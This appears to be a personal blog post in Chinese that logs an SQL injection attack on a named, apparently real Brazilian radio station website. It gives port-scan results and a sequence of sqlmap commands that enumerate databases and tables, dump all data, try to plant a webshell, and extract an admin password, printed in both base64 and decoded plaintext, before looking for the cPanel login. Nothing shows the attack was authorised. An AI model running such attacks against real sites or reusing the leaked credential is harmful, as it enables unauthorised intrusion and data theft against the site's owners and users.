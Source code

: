 ```yaml
---
title: 03-08-sql-inject
categories:
- record
tags:
- record
---
```

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-08/2.PNG)

## scan
```
80/tcp   open  http          cloudflare
443/tcp  open  ssl/https     cloudflare
8080/tcp open  http-proxy    cloudflare
8443/tcp open  ssl/https-alt cloudflare
```
确认为一个web server，有云防护，不允许直接ip访问

ping，返回值为ttl=128；网站url，大小写不敏感。

说明是windows os

## sql inject

www.radiomiriam.com.br   104.28.2.130

http://www.radiomiriam.com.br/noticia.php?id=615%27

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''615''' at line 1

1. 加单引号直接报错，两个单引号没有报错，确认了sql注入。

2. sqlmap -u "http://www.radiomiriam.com.br/noticia.php?id=615" --dbs
提示无注入漏洞，em...
以为是数据库的原因，sqlmap是不是不支持MariaDB

3. 网上搜索，sqlmap是支持MariaDB的。
用burp抓包，访问`http://www.radiomiriam.com.br/noticia.php?id=615`的数据包。

`sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3` 
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-08/1.PNG)

4.
```
sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql --dbs

[*] information_schema
[*] radiomir_radio

sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql --current-db
current database:    'radiomir_radio'

sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql -D information_schema --tables
[75 tables]

sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql -D radiomir_radio --tables
[17 tables]

sqlmap -r id.req --threads 10 --level 5 --risk 3 --random-agent --batch --is-dba -v 3
不是最高权限用户
```
5.
```
sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql -D radiomir_radio -T admin --column
Table: admin

[5 columns]
。。。

---
将所有数据导出
sqlmap -r id.req --threads 10 --level 5 --risk 3 --random-agent --batch --dump -v 3

/root/.sqlmap/output/www.radiomiriam.com.br/dump/radiomir_radio/noticias_imagens.csv
/root/.sqlmap/output/www.radiomiriam.com.br
```
6.
尝试写webshell，无写权限。
```
sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql --os-shell
[WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
```
7.
sqlmap -r request.txt --threads 10 --level 5 --risk 3 --random-agent --batch -v 3 --dbms mysql -D radiomir_radio -T admin -C senha --dump
aWZvNjQ3Nw== 
解码后ifo6477

8. 找后台

邮箱：webmaster@radiomiriam.com.br

访问这个网站www.radiomiriam.com.br，直接重定向到http://miriamcaravaggio.com.br/

后台地址：www.radiomiriam.com.br/cpanel
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-08/3.PNG)

后台是通过代理连接的，没有凭据，所以无法连接。以后有经验了再看看cpanel吧...


